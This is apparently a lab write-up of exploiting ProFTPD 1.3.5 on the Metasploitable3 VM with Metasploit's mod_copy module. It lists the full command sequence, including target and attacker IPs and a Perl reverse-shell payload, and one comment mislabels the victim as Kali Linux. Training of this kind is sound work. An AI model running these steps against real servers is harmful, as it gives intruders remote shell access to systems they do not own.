






# Metasploit Exploitation

This document outlines the process of exploiting a **ProFTPD 1.3.5** server on Metasploitable3 using the `proftpd_modcopy_exec` exploit in Metasploit.

## Exploitation Steps

### 1. Starting Metasploit Framework

Launched the Metasploit Console:

```bash
msfconsole
```



### 2. Selecting the Exploit

Used the `proftpd_modcopy_exec` module targeting ProFTPD 1.3.5:

```bash
use exploit/unix/ftp/proftpd_modcopy_exec
```



### 3. Configuring the Exploit

Verified settings:

```bash
show options
```



#### Set Parameters

```bash
set RHOSTS 192.168.56.102   # Victim's IP (Kali Linux)
set LHOST 192.168.56.101    # Attacker's IP (Kali Linux)
set SITEPATH /var/www/html/
```



### 4. Payload Configuration

Selected a Perl-based reverse shell payload for reliability:

```bash
set payload cmd/unix/reverse_perl
```



### 5. Executing the Exploit

Launched the exploit:

```bash
exploit
```


